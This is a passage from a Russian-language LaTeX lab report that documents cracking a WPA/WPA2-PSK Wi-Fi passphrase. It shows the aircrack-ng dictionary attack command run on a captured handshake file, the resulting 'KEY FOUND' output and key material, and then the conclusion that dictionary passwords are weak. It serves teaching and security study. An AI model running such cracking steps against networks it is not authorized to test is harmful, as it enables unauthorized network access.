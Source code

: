 Попробуем подобрать пароль, используя полученный пакет с рукопожатием.
Для того, что бы взлом происходил быстрее, создадим свой словарь паролей 
(dict.dic).
\begin{lstlisting}
artyom@artyom-Inspiron-7348:~$ sudo aircrack-ng dump-03.cap -w dict.dicOpening dump-03.cap
Read 1572 packets.

#  BSSID              ESSID                     Encryption

1  12:FE:ED:E5:BD:01  Printer                   WPA (1 handshake)

Choosing first network as target.

Opening dump-03.cap
Reading packets, please wait...

Aircrack-ng 1.2 beta3


[00:00:00] 1 keys tested (345.36 k/s)


Current passphrase: ...                 

KEY FOUND! [ ... ]
KEY FOUND! [ ... ]
45 0D 62 F4 FC 81 69 5F D1 1C 65 80 11 8A 1B 0A 

Transient Key  : 05 01 A0 F0 28 F2 D0 99 79 2B 09 94 38 93 04 7A 
6F C3 75 6C 58 13 7C FB 22 17 99 00 8A 99 79 77 
B9 10 1C 39 DE 5C 0C 29 C5 1C 43 39 B2 06 F5 7B 
EAPOL HMAC     : E9 D0 1B 6C F3 ED A4 F6 FC 83 5D BC 3C 6A 9F 00 

\end{lstlisting}
В результате видим сообщение об успешно подобранном пароле, а так же сам пароль.

\section{Выводы}
В ходе данной работы были изучены основные возможности пакета AirCrack и 
принципы взлома WPA2 в режиме PSK. %
Данный инструмент позволяет прослушивать пакеты в беспроводной, генерировать новые, а так же осуществлять взлом пароля сети при помощи перебора по 
словарю.

В ходе работы было выяснено, что использование общеупотребимых (словарных) паролей значительно облегчает взлом беспроводной сети.